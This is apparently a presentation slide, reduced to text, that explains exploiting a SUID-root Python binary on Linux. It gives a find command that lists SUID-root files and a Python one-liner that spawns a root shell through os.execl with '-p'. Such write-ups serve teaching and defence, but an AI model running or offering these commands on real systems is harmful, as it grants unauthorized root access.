

# ⿤ EXPLOITING SUID MISCONFIGURATION
The attacker located a Python binary with SUID permissions, allowing them to run code as the root user:
find / -type f -user root -perm -4000 2>/dev/null

Exploitation command:
/usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")‘

This command used Python’s  os.execl() to spawn a privileged shell (-p keeps effective UID as root).